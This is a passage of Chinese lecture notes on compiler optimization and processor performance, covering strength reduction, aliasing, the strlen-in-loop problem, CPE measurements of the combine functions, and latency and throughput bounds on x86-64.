if t3<=t7 goto L3到这里，剩下的冗余都在循环本身，第四步（课件 p.16–18）要用强度削减和代码移动来消除它们。在内层循环中，j 每次加 1，于是 t2 = 4(j–1) 和 t6 = 4j 每次都恰好加 4——它们是 j 的线性函数（称为归纳变量）。可以给它们设初值 t2 := 0、t6 := 4，每轮加 4，乘法就变成了加法（强度削减）。这样一来 j 本身只剩下循环条件 j > i 还在用；把条件改写成等价的 4j > 4i，即 t6 > t19，其中 t19 := 4*i 在内层循环中不变，放到内层循环之前计算（代码移动），j 就可以整个删掉。最后再把 4*i 写成 i << 2（强度削减），得到课件 p.18 的最终伪代码：
i := n-1
L5: if i<1 goto L1
t2 := 0 // A[j] 的偏移，j = 1
t6 := 4 // A[j+1] 的偏移
t19 := i << 2 // 4*i，内层循环不变量
L4: if t6>t19 goto L2
t3 := A[t2]
t7 := A[t6]
if t3<=t7 goto L3
A[t2] := t7
A[t6] := t3
L3: t2 := t2+4
t6 := t6+4
goto L4
L2: i := i-1
goto L5
L1:表 2 汇总了四步的效果：内层循环从 25 条降到 9 条，外层循环体从 29 条降到 15 条。
表 2 冒泡排序伪代码的逐步优化（课件 p.11–18）
| 步骤 | 做了什么 | 外层循环体 | 内层循环 |
|---|---|---|---|
| 逐句翻译（p.11） | 每个下标都按 4 × (下标 – 1) 计算 | 29 | 25 |
| 地址冗余（p.12–13） | 共享 4*(j–1)、4*j 等公共子表达式 | 20 | 16 |
| 读内存冗余（p.14–15） | 交换时复用已读出的 A[j]、A[j+1] | 15 | 11 |
| 循环冗余（p.16–18） | 归纳变量 t2、t6 每次加 4；j 被删去；4*i 移出内层并改为移位 | 15 | 9 |
课件 p.18 最后指出，这些都是与机器无关的优化；之后还有与机器相关的优化，例如把临时变量分配到寄存器、翻译成具体的汇编指令。用 gcc 13 -O1 编译上面的 C 程序，可以看到这两类优化的结果（研讨题 1（4）给出了完整汇编）：内层循环在“不交换”的路径上只有 7 条指令，A[j]、A[j+1] 各读一次，交换时直接把两个寄存器写回，没有 temp。和课件的最终伪代码相比，gcc 保留了下标 j 而没有改成字节偏移，因为 x86-64 的比例变址寻址 A(,%rax,4) 由硬件完成“乘以 4”，这一步强度削减在这台机器上已经没有必要——这正是“与机器相关”的含义。
14.6 优化编译器的局限（课件 p.20）#
编译器在一条根本约束下工作：优化不能改变程序的行为（除非程序用了语言标准之外的特性）。哪怕某种情况只在“病态”条件下才会出现，只要它可能出现，编译器就不能做会在这种条件下改变结果的优化。课件 p.20 列出了由此带来的几个局限：
第一，程序员显而易见的事实，可能被语言和编码风格掩盖。例如变量的实际取值范围往往比它的类型所能表示的范围小得多，但编译器只能按类型考虑所有可能的值。第二，大多数分析只在过程内部进行：对整个程序做分析代价太大；较新的 gcc 能在同一个源文件内做过程间分析，但不能跨文件。第三，分析几乎都基于静态信息：编译器很难预料运行时的输入。归结起来就是一句话：拿不准的时候，编译器必须保守。
教材 5.1 节用两组小例子说明这种保守的必要性。第一组：
void twiddle1(long *xp, long *yp) { void twiddle2(long *xp, long *yp) {
*xp += *yp; *xp += 2 * *yp;
*xp += *yp; }
}看上去两者等价，twiddle2 只需读 *xp、*yp 各一次、写 *xp 一次，比 twiddle1 少了一半的内存访问。但如果 xp 和 yp 指向同一个位置（初值为 x），twiddle1 的结果是 4x（先变成 2x，再加上自己变成 4x），twiddle2 的结果是 3x。编译器不知道调用者会不会传入相同的指针，所以不能把 twiddle1 优化成 twiddle2。第二组：f() + f() + f() + f() 与 4 * f() 看上去也等价，但如果 f 每次调用会修改一个全局计数器（副作用），两者的结果就不同。这两组例子分别对应下面两节的两个妨碍优化的因素：内存别名和过程调用。
14.7 妨碍优化的因素一：过程调用（课件 p.21–27）#
课件 p.21 的函数把字符串中的大写字母转成小写，据说摘自当年 CMU 的实验提交：
void lower(char *s) /* 课件称为 lower1 */
{
size_t i;
for (i = 0; i < strlen(s); i++)
if (s[i] >= 'A' && s[i] <= 'Z')
s[i] -= ('A' - 'a');
}课件 p.22 测出它的运行时间随字符串长度平方增长：长度加倍，时间变成 4 倍，50 万个字符要 200 多秒。原因要把循环改写成 goto 形式才看得清（p.23）：for 循环的测试条件 i < strlen(s) 在每次迭代都要求值一次，strlen 每次都被调用。而 strlen 只能从头扫描到空字符为止，耗时与长度 N 成正比（p.24）。N 次调用、每次扫描 N、N–1、…、1 个字符，总时间是 O(N²)。把 strlen 移出循环（p.25），先算出长度存进局部变量 len，这是一次代码移动，就成了线性时间的 lower2。
图 1 是默认环境上的实测。左图的 lower1 调用的是课件 p.24 那样逐字节扫描的 strlen（单独放在另一个源文件中编译）：长度 5 万时 0.62 秒，10 万时 3.2 秒，20 万时 12.3 秒，长度每加倍，时间约变成 4 倍；同样 20 万个字符，lower2 只要 0.06 毫秒。右图的 lower1 调用 C 库自带的 strlen，它用向量指令一次比较几十个字节，快了三十多倍，但仍然是平方增长——渐近复杂度不会因为常数因子变小而改变。
图 1 lower1 与 lower2 的运行时间（默认环境实测，gcc -O1）：lower1 每次循环都调用 strlen，时间随长度平方增长
那么，编译器为什么不自己把 strlen 移出循环呢？课件 p.27 的回答是：编译器把过程调用当作一个黑盒：它通常看不到被调函数做了什么，于是必须考虑两种可能。第一，被调函数可能有副作用，每次调用都会改变某个全局状态，调用次数一变，程序的行为就变了。课件给的例子是一个“自己写的”strlen，它每次调用都把长度累加到全局变量 lencnt 上——把它移出循环，lencnt 的值就不对了。第二，被调函数对同样的参数不一定返回同样的值：返回值可能依赖于其他全局状态；而在 lower 里，循环体本身就在修改字符串 s，编译器无法排除“修改之后 strlen(s) 的结果改变了”的可能（比如某次把一个字符改成了 '\0'）。所以在过程调用附近，编译器只能做很弱的优化。
实测：gcc 什么时候会、什么时候不会移动 strlen
用 gcc 13 分别以 -O1、-O2、-O3 编译 lower1，汇编中 call strlen 都还留在循环里面（研讨题 1（5）给出了 -O1 的完整汇编）。
有意思的是，gcc 其实“认识”C 库的 strlen：它知道 strlen 没有副作用、结果只取决于字符串的内容。把循环体改成只统计大写字母个数、不写 s，gcc -O1 就会把 strlen 移到循环前面只调用一次。可见挡住优化的不是“strlen 是个函数”本身，而是“循环体在写内存，可能改变 strlen 的结果”。至于另一个文件中自己写的 strlen，编译器连它有没有副作用都无从得知，无论循环体写不写内存都不会移动。
课件给出的补救办法有两个。一是使用内联函数：被调函数的代码被直接展开到调用处，编译器就能看到它做了什么，再结合上下文优化；gcc 在 -O1 下就会对同一文件中的小函数做内联，但不能跨文件。二是自己做代码移动，像 lower2 那样把结果不变的调用移出循环。后者最可靠，也是本讲反复强调的习惯：不要指望编译器替你做它无法证明正确的事。
14.8 妨碍优化的因素二：内存别名（课件 p.28–31）#
课件 p.28 的函数把 n × n 矩阵 a 的每一行求和，存进向量 b：
/* Sum rows is of n X n matrix a and store in vector b */
void sum_rows1(double *a, double *b, long n) {
long i, j;
for (i = 0; i < n; i++) {
b[i] = 0;
for (j = 0; j < n; j++)
b[i] += a[i*n + j];
}
}gcc 13 -O1 生成的内层循环与课件一致：每次迭代都从内存读出 b[i]、加上 a 的元素、再写回 b[i]。
.L3: # sum_rows1 内层循环（默认环境，gcc -O1）
movsd (%rdx), %xmm0 # 读 b[i]
addsd (%rax), %xmm0 # 加上 a[i*n+j]
movsd %xmm0, (%rdx) # 写回 b[i]
addq $8, %rax
cmpq %rcx, %rax
jne .L3明明用一个寄存器累加、最后写一次就够了，编译器为什么不这样做？因为 a 和 b 可能指向重叠的内存——这叫内存别名（memory aliasing）：两个不同的内存引用指向同一个位置。课件 p.29 构造了这样的调用：
double A[9] = { 0, 1, 2,
4, 8, 16,
32, 64, 128 };
double *B = A + 3; /* B[0..2] 就是 A[3..5]，即 a 的第 1 行 */
sum_rows1(A, B, 3);逐步跟踪 B 的值（默认环境实测与课件一致）：初值 [4, 8, 16]。i = 0 时，第 0 行 0 + 1 + 2 = 3，B 变成 [3, 8, 16]。i = 1 时，先执行 b[1] = 0，而 b[1] 就是 a[4]，于是第 1 行变成 {3, 0, 16}；累加过程中 b[1] 先变成 3，再加上 a[4]——也就是 b[1] 自己——变成 6，再加 16 得 22，B 变成 [3, 22, 16]。i = 2 时，第 2 行 32 + 64 + 128 = 224，B 变成 [3, 22, 224]。如果改用寄存器累加（课件 p.30 的 sum_rows2），第 1 行求和时读到的 a[4] 一直是 0 而不是正在累加的部分和，结果是 [3, 27, 224]——两个版本在有别名时结果不同。编译器不知道调用者会不会这样传参，只能老老实实地每次读写内存。
void sum_rows2(double *a, double *b, long n) {
long i, j;
for (i = 0; i < n; i++) {
double val = 0; /* 在局部变量中累加 */
for (j = 0; j < n; j++)
val += a[i*n + j];
b[i] = val; /* 只写一次 */
}
}sum_rows2 的内层循环只剩 addsd (%rdi), %xmm0 加上循环控制共 4 条指令，不再存储中间结果。默认环境上 n = 512 时实测，sum_rows1 每个元素约 8 个周期（多次测量在 7.5～8.6 之间），sum_rows2 约 2.0 个周期，快了约 4 倍。差距不在于少执行了两条指令，而在于 sum_rows1 的每次加法都要等上一次的结果经过内存绕一圈（写入、再读出），14.10 节会用 combine3 和 combine4 解释这一点。
教材补充：别名的其他补救办法
C99 引入了 restrict 关键字：把参数声明为 double *restrict a, double *restrict b，就是程序员向编译器承诺 a 和 b 指向的区域互不重叠。默认环境上实测，sum_rows1 只加上 restrict、其余一字不改，gcc -O1 生成的内层循环就与 sum_rows2 相同。另外，更高的优化级别能部分缓解别名的影响：gcc -O2 编译 sum_rows1 时，把部分和保留在寄存器中，每次迭代仍然写一次 b[i] 以保证有别名时结果正确，但不再读回——写操作不在相关链上，所以速度与 sum_rows2 相当（实测每个元素约 2.1 个周期；教材练习题 5.4 讨论的就是这种代码）。不过最可靠、最通用的办法仍是课件 p.31 说的：养成引入局部变量的习惯，在循环中用局部变量累加，这等于明确告诉编译器“不必检查别名”。
课件 p.31 总结了别名：两个不同的内存引用指向同一个位置；在 C 中很容易发生，因为 C 允许地址运算，可以直接访问存储结构。编译器无法排除别名时，就不能把内存中的值放在寄存器里反复使用，也不能调换读写的顺序。
14.9 基准程序与 CPE（课件 p.34–37）#
从这一节起，课件转向利用指令级并行（p.33）：现代处理器能同时执行多条指令，程序的性能常常受限于数据相关；一些简单的程序变换就能带来巨大的性能提升，而编译器往往做不了这些变换，因为浮点运算不满足结合律和分配律。为了把这些现象看清楚，教材第 5 章用同一个简单的计算贯穿始终。
这个计算作用在一种向量抽象数据类型上（课件 p.34）：向量由一个头部和一个数组组成：头部记录长度 len 和指向数据的指针 data。data_t 是元素类型，编译时用不同的声明换成 int、long、float 或 double。读取元素的函数 get_vec_element 带边界检查，下标越界时返回 0，否则把元素存到 *val 并返回 1：
typedef struct {
size_t len;
data_t *data;
} vec;
/* 取出向量的第 idx 个元素，存到 *val */
int get_vec_element(vec *v, size_t idx, data_t *val)
{
if (idx >= v->len)
return 0;
*val = v->data[idx];
return 1;
}⚠ 课件 p.34 的参数声明写反了
课件把 get_vec_element 的第一个参数写成 (*vec v, size_t idx, data_t *val)，这不是合法的 C 声明：“指向 vec 的指针”应写成 vec *v，星号跟在类型名后面。上面的代码已改正。另外，课件中长度的类型是 size_t，教材图 5.4 用的是 long（若循环边界写成 i < len - 1 且 len 为无符号 size_t，len = 0 时会下溢回绕成最大值，用带符号的 long 可避免），两者对本讲其余讨论没有影响；讲义的实验程序按教材用 long，并且像教材一样把这几个向量函数放在单独的源文件中编译，使调用它们的 combine 函数看不到函数体。
在这种数据结构上，课件 p.35 定义了要测量的基准计算：combine1 把向量的所有元素用运算 OP 合并起来：OP 定义为 + 时 IDENT 为 0，计算各元素之和；OP 定义为 * 时 IDENT 为 1，计算乘积。四种数据类型乘两种运算，共 8 种组合；教材的实验表明 int 与 long、float 与 double 的性能相同（除法除外），所以表中只列“整数”和“浮点数”两组。
void combine1(vec_ptr v, data_t *dest)
{
long i;
*dest = IDENT;
for (i = 0; i < vec_length(v); i++) {
data_t val;
get_vec_element(v, i, &val);
*dest = *dest OP val;
}
}怎样衡量这样一个函数的快慢？课件 p.36 用的是每元素的周期数（Cycles Per Element，CPE）：对处理向量或链表这类程序，用“处理一个元素平均需要几个时钟周期”表示性能最方便。一个程序处理长度为 n 的向量，所用的周期数可以近似为一条直线：T = CPE × n + 固定开销，CPE 就是这条直线的斜率。固定开销包括函数调用、循环前的准备等，与 n 无关；n 越大，它在总时间中所占的比例越小，所以比较循环的效率时看斜率而不看总时间。在 combine 系列中，CPE 就是“每次 OP 运算的周期数”。用时钟周期而不是秒作单位，是因为周期数反映了程序和处理器结构的关系，不随主频变化。
课件 p.36 的图是教材图 5.1、5.2 的两个前置和函数：psum1 每次迭代算一个元素 p[i] = p[i–1] + a[i]；psum2 每次迭代算两个元素，中间结果放在局部变量里（这是 14.13 节要讲的循环展开）。教材在旧机器上测得 psum1 约 368 + 9.0n 个周期、psum2 约 368 + 6.0n。图 2 是在默认环境上重测的结果：psum1 约 60 + 8.5n，psum2 约 73 + 5.3n。斜率的含义很直观：psum1 每算一个元素都要把结果写进 p[i]、下一次再读回来；psum2 每两个元素才这样绕内存一次。
图 2 psum1 与 psum2 的周期数随元素个数的变化（默认环境实测，float，gcc -O1）：直线的斜率就是 CPE
常见问题：讲义的 CPE 是怎么测出来的？
x86-64 的 rdtsc 指令读出一个按固定频率（默认环境是标称主频 2.1 GHz）递增的时间戳计数器。但处理器运行时会自动升频，默认环境实际约 3.2 GHz，所以时间戳计数并不等于处理器的时钟周期。讲义的做法是先标定：运行一长串相互依赖的 addq %rcx, %rax（整数加法的延迟是 1 个周期，每条恰好占 1 个周期），算出“每个周期对应多少个时间戳计数”，再把被测程序的计数换算成周期数。
被测函数对 n = 256～4096 的七种长度各运行 300 次取最短时间（数据都在 L1 缓存中，最短的一次受干扰最少），再用最小二乘法拟合直线，斜率即 CPE。为了让编译器保持标量代码，编译时加 -fno-tree-vectorize 关闭自动向量化（14.17 节再专门看向量化）。这台云主机偶尔受到同一物理机上其他用户的干扰，个别数值会有 ±0.1～0.2 的波动，讲义给出的是多次运行中有代表性的结果。
还有一个容易忽略的细节：标定时如果用 addq $1, %rax 这样“加立即数”的依赖链，这颗处理器测出来每个周期能完成好几条——较新的处理器能在指令进入执行单元之前就把这类简单的加法合并掉。所以标定必须用两个寄存器相加，测量方法本身也要经过验证。
想在自己的电脑上重做本讲的实测，可以用桌面版 ICS 学习工作台（macOS）的“本机实验”，它会真实编译并计时以下几项：“循环展开与 CPE”用多种长度拟合出 combine 系列和 L×K 展开的 CPE，“运算延迟与吞吐量”对应 14.11 节的表，“SIMD 向量累积”对应 14.17 节，“分支预测与条件传送”对应 14.18 节，“前缀和依赖链”对应本节的 psum，“代码移动与 strlen”对应 14.7 节。“自定义 C 测量”则可以对任意一段代码计时。Apple 芯片上的延迟与讲义默认环境不同，例如浮点加法和浮点乘法分别是 3、4 个周期，CPE 的绝对值会变，但界限的分析方法不变。
网页版模拟器的“程序优化”视图不编译 C，也不测真实周期。它按讲义默认环境的参数画两轮迭代的依赖图、计算 CPE 模型和各种界限，适合对照 14.10–14.17 节理解关键路径；其中的“编译器对照”页签收录了研讨题 1 的七个程序，并排显示它们的 -O0、-O1 汇编，可以逐条讲解。
14.10 从 combine1 到 combine4（课件 p.37–39，教材 5.3–5.6 节）#
课件 p.37 给出 combine1 的 CPE，p.38–39 直接跳到 combine4。教材在两者之间还有 combine2、combine3 两步，研讨题 2（2）要求逐个解读，这里按教材的顺序讲。表 3 并列了教材（Haswell）和默认环境的数据。
表 3 combine1–combine4 的 CPE（整数为 long，浮点为 double；左为教材/课件，右为默认环境实测）
| 函数（方法） | 教材 整数 + | 教材 整数 × | 教材 浮点 + | 教材 浮点 × | 实测 整数 + | 实测 整数 × | 实测 浮点 + | 实测 浮点 × |
|---|---|---|---|---|---|---|---|---|
| combine1（不优化，-O0） | 22.68 | 20.02 | 19.98 | 20.18 | 8.50 | 8.71 | 9.01 | 8.92 |
| combine1（-O1） | 10.12 | 10.12 | 10.17 | 11.14 | 6.0～7.2 | 4.3 | 8.0 | 8.0 |
| combine2（移出 vec_length） | 7.02 | 9.03 | 9.02 | 11.03 | 6.0～6.7 | 3.2 | 8.0 | 8.0 |
| combine3（直接访问数组） | 7.17 | 9.02 | 9.02 | 11.03 | 6.8～7.0 | 3.0 | 8.0 | 8.0 |
| combine4（在局部变量中累积） | 1.27 | 3.01 | 3.01 | 5.01 | 1.00 | 3.00 | 2.00 | 3.00 |
起点 combine1 只要打开优化就能明显变快。不加任何优化选项时，每个局部变量都放在栈上，每次使用都要读写内存；只加 -O1，教材上 CPE 降低一半以上，默认环境上降低了 10%～50%（新处理器读写栈上变量的代价小得多，所以不开优化时也没有那么慢）。课件 p.37 的最后一行是 -O3 的结果（4.5、4.5、6、7.8，教材中没有这组数据）；默认环境上 -O3 的 combine1 为 6.0、4.3、8.0、8.0，与 -O1 差不多——因为瓶颈在下面要讲的两个地方，单靠提高优化级别解决不了。
接下来的 combine2 着手消除循环中的低效（教材 5.4 节）。combine1 的循环条件每次都调用 vec_length。向量长度在循环中不会改变，把它移到循环前面算一次（14.2 节的代码移动；编译器不敢做，理由同 14.7 节）。教材上整数加法从 10.12 降到 7.02，其余变化不大；默认环境上也是小幅改善。这一步本身收益有限，但它清除了一个以后会成为瓶颈的因素。
循环条件解决之后，循环体里的过程调用还在，combine3 针对的就是它（教材 5.5 节）。combine2 每次迭代仍要调用 get_vec_element，并做一次边界检查。教材引入一个新函数 get_vec_start 返回数组的起始地址，循环中直接写 data[i]。出人意料的是，性能几乎没有改善，教材上整数加法甚至略慢。这说明调用和边界检查并不是瓶颈：边界检查的条件分支总是预测正确（14.18 节），它和函数调用的其余指令都可以与真正的瓶颈并行执行。这一步同样是为下一步扫清障碍——教材也承认它破坏了抽象数据类型的封装，但这是获得高性能的必要代价。
既然调用和边界检查都不是瓶颈，瓶颈究竟在哪里？答案是不必要的内存引用，combine4 就是为消除它而写的（教材 5.6 节，课件 p.38–39）。combine3 的累积结果存放在 *dest 中，每次迭代都要读出 *dest、做一次运算、再写回 *dest。下面是 double 乘法时 combine3 的内层循环（默认环境 gcc -O1；教材的写法用 AVX 指令 vmulsd，含义相同）：
.L17: # combine3 内层循环：dest 在 %rbx，data+i 在 %rax
movsd (%rbx), %xmm0 # 读 *dest
mulsd (%rax), %xmm0 # 乘以 data[i]
movsd %xmm0, (%rbx) # 写回 *dest
addq $8, %rax
cmpq %rdx, %rax
jne .L17combine4 引入局部变量 acc 累积结果，循环结束后才写一次 *dest，编译器就能把 acc 放在寄存器 %xmm0 中，内层循环变成：
.L25: # combine4 内层循环：acc 在 %xmm0
mulsd (%rax), %xmm0 # acc = acc * data[i]
addq $8, %rax
cmpq %rdx, %rax
jne .L25每次迭代的内存操作从“两读一写”减为“一读”，CPE 大幅下降：教材上提高 2.2～5.7 倍，整数加法降到 1.27；默认环境上降到 1.00、3.00、2.00、3.00，整数加法提高约 7 倍，浮点提高 2.7～4 倍（整数乘法是个例外，见本节末的常见问题）。为什么 combine3 慢得这么多？关键在于相关链经过了内存：第 i 次迭代的读 *dest 必须等第 i–1 次迭代的写 *dest 完成，数据要经过“写入—再读出”这一圈，即使处理器能把待写的数据直接转发给后面的读操作，这一圈也要好几个周期；combine4 中累积值在寄存器里，相关链只经过运算本身。编译器不能把 combine3 自动改写成 combine4，原因还是内存别名：如果 dest 恰好指向向量的最后一个元素，两者的结果不同。教材的例子是 v = [2, 3, 5]、整数乘法：combine3(v, get_vec_start(v) + 2) 的结果是 36（*dest 依次变成 1、2、6，最后一次乘以它自己得 36），combine4 的结果是 2 × 3 × 5 = 30。
常见问题：为什么默认环境上 long 乘法的 combine3 也只要 3.0？
表中 long 乘法的 combine3 是 3.0，与 combine4 相同，看起来经过内存的那一圈“不花时间”。查看汇编，它的循环是“movq (%rbx), %rax；imulq (%rdx), %rax；movq %rax, (%rbx)”，与 double 版的结构相同，double 版却要 8 个周期。较新的 Intel 处理器能在某些情况下识别出“刚写入的地址马上又被读出”，直接把寄存器中的值交给后面的读操作，几乎不花时间；这里的实测说明 long 乘法的这个循环享受到了这种机制，而 long 加法的循环（gcc 把它编成一条“读—改—写”内存的 addq %rax, (%rbx)）和 double 版都没有。这类机制在 Intel 的文档中描述很少，哪些指令形式能用上也因处理器而异——不能指望它，在局部变量中累积才是对所有机器都有效的写法。
另外，gcc -O2 编译 combine3 时会把累积值留在寄存器中、每次迭代只写不读（与 14.8 节的 sum_rows1 相同），默认环境上测得 1.00、3.00、2.00、2.98，与 combine4 相同；教材练习题 5.4 讨论的正是这种代码。
14.11 现代处理器：超标量、乱序执行与功能单元（课件 p.40–43，教材 5.7 节）#
combine4 已经消除了明显的开销，再要提高，就必须了解处理器内部是怎样执行指令的。第 11 讲的 PIPE 是一条五级单发射流水线：每个周期最多取一条指令，指令严格按程序顺序流过各个阶段。现代处理器要复杂得多。课件 p.40 的结构图（图 3，按教材图 5.11 重画）把它分成两大部分。
图 3 现代乱序超标量处理器的框图（课件 p.40、教材图 5.11）：指令控制单元提前取指、译码，执行单元中的多个功能单元并行执行操作
图的上半部分是指令控制单元（Instruction Control Unit，ICU），它负责从指令高速缓存中读出指令，并把它们译码成一系列基本操作（也叫微操作）。它的取指控制部分包含分支预测：遇到条件分支时，不等条件算出来，就猜测一个方向继续取指（14.18 节）。ICU 通常远远走在执行的前面，以便给执行单元源源不断地提供足够多的操作。例如 addq %rax, 8(%rdx) 会被拆成三个操作：从内存读出、加法、写回内存。译码时，ICU 还对寄存器做重命名：为每个结果分配一个标签，后续需要这个结果的操作直接等待这个标签，而不必等它写回寄存器文件。
图的下半部分是执行单元（Execution Unit，EU），它接收 ICU 送来的操作，把它们分派给一组功能单元（functional units）执行。只要一个操作所需的数据都已准备好，就可以执行，而不必按程序顺序——这叫乱序执行（out-of-order execution）。功能单元算出的结果通过转发直接送给等待它的其他操作（图中的“操作结果”），这与第 11 讲的数据转发是同一个思想，只是规模大得多。加载和存储单元通过数据高速缓存访问内存。
既然操作不按程序顺序执行，怎样保证最终结果与顺序执行一致？这是 ICU 中退役单元（retirement unit）的任务：它记录正在处理的指令，保证程序的语义仍然是顺序的：一条指令只有在它之前的所有指令都完成、并且确认它所在的分支方向预测正确之后，才能退役，这时它对寄存器的更新才真正写进寄存器文件。如果某个分支预测错了，它后面所有已经执行的操作都被丢弃，它们的结果从未写进程序可见的状态，所以不会产生错误（图中“预测正确吗？”的虚线）。这种“先执行、后确认”的方式叫投机执行（speculative execution）。
课件 p.41 把这类处理器称为超标量（superscalar）处理器：它在一个时钟周期内可以发射和执行多条指令；这些指令取自顺序的指令流，通常由硬件动态调度。好处是程序员不必做任何事，处理器就能利用大多数程序中天然存在的指令级并行（instruction-level parallelism）。如今的通用 CPU 几乎都是超标量的，Intel 从 1993 年的奔腾开始就是如此。
执行单元里的功能单元本身也是流水化的（课件 p.42）。一个乘法需要 3 个周期，并不意味着乘法器在这 3 个周期里只能为它服务。乘法器可以像第 11 讲的处理器一样分成 3 个阶段，每个阶段完成一部分工作，一个乘法从阶段 1 进入阶段 2 后，阶段 1 就能开始下一个乘法。课件的例子 mult_eg 计算 p1 = a*b、p2 = a*c、p3 = p1*p2（图 4（a））：a*b 和 a*c 互不相关，在第 1、2 个周期相继开始；p1*p2 要用到两者的结果，a*c 在第 4 个周期结束才拿到，于是在第 5 个周期开始、第 7 个周期结束。3 次乘法共用 7 个周期，而不是 3 × 3 = 9 个周期。如果部件不是流水化的（图 4（b），比如除法器），前一个操作完成之前不能开始下一个，同样 3 次运算就要 9 个周期。
图 4 流水化与非流水化的功能单元（课件 p.42）：同样是 3 次需要 3 个周期的运算
用三个参数刻画一种运算的性能（教材 5.7.2 节）：延迟（latency），完成一次运算需要的总周期数；发射时间（issue time），两个相互独立的同类运算之间至少间隔的周期数，发射时间为 1 的部件称为完全流水化的；容量（capacity），能执行这种运算的功能单元的个数。容量为 C、发射时间为 I 的运算，最大吞吐量是每周期 C / I 个。课件 p.43 列出了 Haswell 的情况，表 4 把它与教材图 5.12 合并，并给出在默认环境上实测的对应数值（测法是让一长串相互依赖的同类指令测延迟，让 8 条相互独立的链交错执行测吞吐量）。
表 4 功能单元的性能（单位：周期；“每周期最多”= 容量 / 发射时间）
| 运算 | Haswell 延迟 | Haswell 发射时间 | Haswell 容量 | 默认环境 延迟 | 默认环境 每周期最多 | 说明 |
|---|---|---|---|---|---|---|
| 整数加法 | 1 | 1 | 4 | 1 | 4 | 完全流水化，4 个单元 |
| 整数乘法 | 3 | 1 | 1 | 3 | 1 | 完全流水化，1 个单元 |
| 整数除法 | 3～30 | 3～30 | 1 | 十几 | 约 0.1 | 不流水化，时间依数据而定 |
| 浮点加法 | 3 | 1 | 1 | 2 | 2 | 默认环境有 2 个单元 |
| 浮点乘法 | 5 | 1 | 2 | 3 | 2 | |
| 浮点除法 | 3～15 | 3～15 | 1 | 13～18 | 约 0.25 | 只部分流水化 |
| 加载 | 4 | 1 | 2 | 5 | 3 | 延迟指 L1 命中 |
| 存储 | — | 1 | 1 | — | 2 |
常见问题：课件 p.43 说“8 个功能单元”，下面却列了 11 个？
教材 5.7.1 节说明，Haswell 有 8 个功能单元（编号 0～7），每个单元能执行好几种操作：例如 0 号单元能做整数运算、浮点乘法、整数和浮点除法、分支，1 号单元能做整数运算、浮点加法、整数乘法、浮点乘法，2、3 号单元做加载和地址计算，5、6 号单元做整数运算（6 号还做分支），4 号做存储，7 号计算存储地址。课件 p.43 的清单是按操作种类统计“有几个单元能做这种操作”：能做加载的有 2 个，能做整数运算的有 4 个（0、1、5、6 号），能做浮点乘法的有 2 个（0、1 号），能做浮点加法的只有 1 个（1 号）……同一个单元被计入了好几行，所以加起来超过 8。这也意味着不同种类的操作会争用同一个单元，例如浮点乘法和整数乘法都可能要用 1 号单元。存储需要两个单元配合：一个算地址，一个写数据。
由这些参数可以得出 CPE 的两个基本下界（教材 5.7.2 节）。第一个是延迟界限（latency bound）：如果一系列运算必须严格按顺序进行，后一个要用前一个的结果，那么每个元素至少要花一次运算的延迟。第二个是吞吐量界限（throughput bound）：即使运算之间毫无相关，功能单元每个周期能完成的运算个数也是有限的，CPE 不能低于“容量 / 发射时间”的倒数。对 combine 系列还要考虑另一个吞吐量限制：每个元素都要从内存加载一次，Haswell 只有 2 个加载单元，每周期最多加载 2 个数，所以任何 combine 函数的 CPE 都不能低于 0.50；默认环境有 3 个加载单元，这个界限是 0.33。表 5 汇总了两台机器的界限。
表 5 combine 系列的延迟界限与吞吐量界限
| 界限 | Haswell 整数 + | Haswell 整数 × | Haswell 浮点 + | Haswell 浮点 × | 默认环境 整数 + | 默认环境 整数 × | 默认环境 浮点 + | 默认环境 浮点 × |
|---|---|---|---|---|---|---|---|---|
| 延迟界限 | 1.00 | 3.00 | 3.00 | 5.00 | 1.00 | 3.00 | 2.00 | 3.00 |
| 吞吐量界限 | 0.50 | 1.00 | 1.00 | 0.50 | 0.33 | 1.00 | 0.50 | 0.50 |
| 吞吐量的限制来源 | 2 个加载单元 | 1 个乘法器 | 1 个浮点加法器 | 2 个浮点乘法器、2 个加载单元 | 3 个加载单元 | 1 个乘法器 | 2 个浮点加法器 | 2 个浮点乘法器 |
14.12 延迟界限与关键路径（课件 p.44–45，教材 5.7.3 节）#
对照表 3和表 5：combine4 的 CPE（教材 1.27、3.01、3.01、5.01，默认环境 1.00、3.00、2.00、3.00）几乎恰好等于延迟界限。课件 p.44 给出的整数乘法内层循环说明了原因：
.L519: # Loop:
imull (%rax,%rdx,4), %ecx # t = t * d[i]
addq $1, %rdx # i++
cmpq %rdx, %rbp # Compare length:i
jg .L519 # If >, goto Loop每次迭代的乘法都要用到上一次迭代的乘积 t（在 %ecx 中），所以 n 次乘法只能一个接一个地做，每次都要等满乘法的延迟。处理器的其他能力——多个功能单元、乱序执行、流水化的乘法器——在这里都派不上用场。
教材用数据流图把这种分析形式化（图 5，以 double 乘法为例）。第一步，把循环体的每条指令译成操作，并按寄存器在循环中的用法分类：只读寄存器（如保存数组末地址的 %rax）只作为输入；循环寄存器（%rdx 和 %xmm0）既是输入又是输出，一次迭代算出的值要被下一次迭代使用。第二步，只保留循环寄存器之间的相关，把每次迭代画成一个模板，再把 n 个模板首尾相接。结果是两条相互独立的链：一条是 %rdx 上的加法链，每次迭代 1 个周期；另一条是 %xmm0 上的乘法链，每次迭代一个乘法延迟（Haswell 5 个周期，默认环境 3 个周期）。较长的一条决定了总时间，称为关键路径（critical path）；加载、比较、跳转等其他操作都不在链上，可以和它并行执行。所以 combine4 的 CPE 就是乘法的延迟。
图 5 combine4（double 乘法）的数据流图（教材图 5.13–5.15 的画法）：红色是跨迭代的关键路径
课件 p.45 用一棵“树”表示同样的事实（图 6（a））：长度为 8 的向量，combine4 计算的是 ((((((((1 × d[0]) × d[1]) × d[2]) × d[3]) × d[4]) × d[5]) × d[6]) × d[7])，8 个乘法排成一条顺序相关的链，总时间约为 8 × 延迟。这就是延迟界限：只要计算的结构还是“一个累积变量、每次并入一个元素”，无论处理器有多少功能单元，CPE 都不可能低于运算的延迟。要突破它，必须改变计算的结构，让链变短或者变成多条。
图 6 8 个元素的三种结合方式（课件 p.45、p.50、p.53）：红色箭头连成的是关键路径
教材上整数加法的 combine4 是 1.27 而不是 1.00，比延迟界限多出一点，原因是每次迭代除了一次加法，还有加载、i 加 1、比较、跳转等指令，Haswell 每周期能处理的指令数有限，循环开销成了限制。默认环境的处理器每周期能处理的指令更多，这个开销被完全隐藏，所以恰好是 1.00。下一节的循环展开正是针对这种开销的。
常见问题：拿到一个循环，怎样求出它的关键路径？
